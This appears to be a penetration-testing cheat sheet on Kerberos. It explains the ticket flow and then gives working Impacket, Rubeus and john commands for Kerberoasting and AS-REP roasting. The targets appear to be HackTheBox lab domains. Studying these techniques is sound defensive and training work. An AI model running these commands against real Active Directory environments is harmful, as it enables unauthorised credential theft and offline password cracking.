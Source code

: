 # Kerberos

When a user logs onto their workstation, their machine will send an AS-REQ message to the Key Distribution Center (KDC), aka Domain Controller, requesting a TGT using a secret key derived from the user’s password.

The KDC verifies the secret key with the password it has stored in Active Directory for that user. Once validated, it returns the TGT in an AS-REP message.The TGT contains the user’s identity and is encrypted with the KDC secret key (the krbtgt account).

When the user attempts to access a resource backed by Kerberos authentication (e.g. a file share), their machine looks up the associated Service Principal Name (SPN). It then requests (TGS-REQ) a Ticket Granting Service Ticket (TGS) for that service from the KDC, and presents its TGT as a means of proving they're a valid user.

The KDC returns a TGS (TGS-REP) for the service in question to the user, which is then presented to the actual service. The service inspects the TGS and decides whether it should grant the user access or not.


## Kerberoasting
Kerberoasting is a technique for requesting TGS’s for services running under the context of domain accounts and cracking them offline to reveal their plaintext passwords.

Using [Impacket](https://github.com/SecureAuthCorp/impacket)

Attack carried from attacker machine.
```markdown
GetUserSPNs.py -request -dc-ip 10.129.x.x active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

Using [Rubeus.exe](https://github.com/GhostPack/Rubeus)

Attack carried form target machine (upload the binary to target machine).
```markdown
.\Rubeus.exe kerberoast /simple /nowrap
```

For specific user.
```markdown
.\Rubeus.exe kerberoast /user:svc_mssql /nowrap
```

Get the hash and try to crack it offline with john.
```markdown
john --format=krb5tgs --wordlist=wordlist hash.txt
```


## AS-REP Roasting

If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password. 


Using [Impacket](https://github.com/SecureAuthCorp/impacket)
```markdown
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/fsmith -dc-ip 10.129.1.165
```

For multiple Users.
```markdown
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.129.168.220 EGOTISTICAL-BANK.LOCAL/${user} | grep -v Impacket; done
```



Using [Rubeus.exe](https://github.com/GhostPack/Rubeus)
```markdown
.\Rubeus.exe asreproast /user:fsmith /nowrap
```

Hash cracking.
```markdown
john --format=krb5asrep --wordlist=wordlist hash.txt
```



